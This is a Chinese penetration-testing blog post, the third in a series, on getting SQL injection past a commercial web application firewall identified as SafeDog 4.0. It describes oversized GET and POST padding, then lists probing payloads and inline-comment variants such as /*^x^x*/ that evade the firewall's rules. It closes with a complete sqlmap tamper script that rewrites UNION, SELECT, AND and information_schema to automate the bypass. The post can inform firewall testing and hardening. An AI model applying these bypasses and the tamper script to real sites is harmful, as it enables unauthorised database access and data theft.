 ```yaml
---
date: "2017-03-07T00:00:00Z"
description: 某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
title: 渗透测试中的Bypass技巧（三）自动化注入
url: /archivers/2017-03-10/1
---
```



## 0x00 匹配资源大小限制

某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。

Get方法提交的数据大小长度并没有限制，HTTP协议规范没有对URL长度进行限制。这个限制是特定的浏览器及服务器对它的限制。可见WAF可能在处理GET请求的时候，根据客户端（浏览器）规定的长度去匹配了，这就造成了一个缺陷。我们可以把有效数据放在这个限制的零界点，攻击语句放在零界点后方，让WAF以为这是一个正常请求，就随之放行，达到了攻击效果。

理论上讲，POST是没有大小限制的。HTTP协议规范也没有进行大小限制，起限制作用的是服务器的处理程序的处理能力。

例如在使用PHP进行POST提交时，文件大小受PHP配置文件PHP.INI限制，我们可以修改PHP.INI文件中的post_max_size参数，可将默认的2M字节，修改自己需要的大小，但由于HTTP协议的特性，这个值不宜设置过大，最大以8M为宜。假设如果服务器端设置了8M，而WAF默认只匹配2M，由此可见服务器端接受数据的大小>WAF匹配的数据最大大小。那么，我们可以根据上述方法，也可绕过WAF的拦截。


## 0x01 绕过某WAF上传

渗透测试中的Bypass技巧（二） - 知乎专栏

在上一章中我们已经举例了一个bypass上传，最重要的彩蛋就在Bypass注入啦~

## 0x02 绕过某WAF注入

我们构造一个SQL注入页面，慢慢去研究它的拦截规则：

![enter description here](../../../static/images/d6591cea-4f5e-11ec-9ece-00d861bf4abb.jpg)

先从普通的语句开始做定位：

* and 1=1

* and ‘s’=’s’

* union select 1,2,3

* `union/**/select/**/user(),2,3`

* ......

* 等价替换
* And ‘s’ like ‘s’

此时我们已经可以使用like用于盲注（此时可以将所有的 = 替换成 Like ）

![enter description here](../../../static/images/d6a4edbe-4f5e-11ec-82b2-00d861bf4abb.jpg)

### 注释

我们可以设想出拦截的特征正则

union与select同时出现会被拦截，union\[空格,%20,/\*部分字符\*/\]select都会被拦截，目前普通的union select都会被拦截，既然空格,%20都会被匹配到，我们只能通过/\*\*/内联来注释了（目前发现N多姿势，在这里只共享思路+一个bypass的tamper脚本）

* `/**/`

* `/*数字+字母*/`

* `/*特殊符号+数字+字母*/`

* .....more


假设union左右如果有select就拦截的话，那么定位union与select之间的敏感字符就好，假设union`[空格]`select，此时如果把空格替换成任意内联，就可bypass这个规则，此时规则也不可能是一条的。条件也是很多的。我们也只能讲内联这个规则做手脚了。

于是乎我发现`/*^xxx^xxx*/`字母加特殊字符即可bypass。

因为每个特征中都没有匹配到^与小写字母、大写字母、数字的组合，这些条件可以继续测试，笔者已经把此文写到最佳精简，测试期间也翻看过拦截日志，定位拦截特征。

（Union注入）例如在读取：mysql密码、表名的时候，我们还会查询information_schema数据库，这个可以转换大小写，或者在information_schema.TABLES直接再添加一个注释。下面就是测试过程：首先测试简单的and 1=1


![enter description here](../../../static/images/d6ea58ea-4f5e-11ec-924c-00d861bf4abb.jpg)


然后我们使用注释bypass:

![enter description here](../../../static/images/d72ef748-4f5e-11ec-9570-00d861bf4abb.jpg)

此时已经bypass成功了，我在这里用的是某dog 4.0（3.5也可以）

![enter description here](../../../static/images/d773335e-4f5e-11ec-ba40-00d861bf4abb.jpg)

## 0x03 自动化bypass注入

我们通过编写sqlmap的tamper用于bypass，主要是需要定位各种拦截点，使用sqlmap替换Payload。

首先在sqlmap的tamper文件夹里创建一个safedog.py，编写我们的tamper脚本

![enter description here](../../../static/images/d7beadfc-4f5e-11ec-8261-00d861bf4abb.jpg)

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload):
    if payload:
		bypass_SafeDog_str = "/*x^x*/"
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str)
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str)
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str)
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str)
		payload=payload.replace(" ",bypass_SafeDog_str)
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/")
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str)
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload
    return payload
```

我们测试一下先不载入tamper脚本：

![enter description here](../../../static/images/d804cdf0-4f5e-11ec-9841-00d861bf4abb.jpg)

到了这基本没戏了，我们看看拦截日志

![enter description here](../../../static/images/d858aa10-4f5e-11ec-890f-00d861bf4abb.jpg)

现在载入tamper脚本：

![enter description here](../../../static/images/d8a9caee-4f5e-11ec-839d-00d861bf4abb.jpg)

可以看到已经载入，并且识别了waf指纹。



以下是跑脚本的过程

![enter description here](../../../static/images/d90154bc-4f5e-11ec-a678-00d861bf4abb.jpg)

![enter description here](../../../static/images/d94d48a4-4f5e-11ec-a123-00d861bf4abb.jpg)

支持布尔值注入

支持union注入

![enter description here](../../../static/images/d99615f2-4f5e-11ec-b057-00d861bf4abb.jpg)
